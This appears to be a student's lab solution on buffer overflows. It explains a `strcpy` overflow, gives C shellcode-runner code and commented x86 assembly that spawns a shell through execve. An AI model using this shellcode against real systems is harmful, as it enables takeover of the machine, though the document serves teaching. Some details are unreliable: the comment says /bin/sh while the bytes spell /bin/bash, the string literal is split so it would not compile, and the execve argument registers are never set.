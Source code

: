 ![5_5.1](../task4/images/5_5.1.JPG)

- But in general, This vulnerability allows arbitrary code execution(if successfully pointed to `system`). A malicious attacker might be able to run  commands, thus one may get full control over the system.

- Another way to exploit is using `ret2libc` attack.
### Exercise 6: Buffer overflows - A more realistic exploit.

__1. Briefly explain why this program is exploitable?__  
__Solution :__ Function `strcpy` accepts user input `argv[1]` and copies the C string into buffer without checking the bounds. `strcpy` also has no way of knowing low large the destination vuffer size is.

__2 Provide some C source code that contains assembler instructions executing a shell (e.g.
/bin/sh) and.__  
__solution__

```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f
\x68\x2f\x2f\x2f\x2f\x54\x5b\x6a\x0b\x58\xcd\x80";
int main(){
  printf("Shellcode Length: %d\n", strlen(shellcode));
  int (*ret)() = (int(*)())shellcode;
  ret();
}

```
![binsh](../task4/images/binsh.jpg)


__3. comment your assembler code.__
__solution :__

```nasm
global _start

SECTION .text

_start:
    xor eax, eax  ; clear eax registers
    push eax    ; push eax into stack
    ; push 68732f6e69622f2f2f2f = '////bin/sh' into stack
    push 0x68736162 
    push 0x2f6e6962
    push 0x2f2f2f2f
    push esp  ; push stack pointer
    pop ebx ; copy stack pointer into ebx
    push 0xb  ; syscall number 11 for execve 
    pop eax  
    int 0x80 ; pass control to interupt
          
```
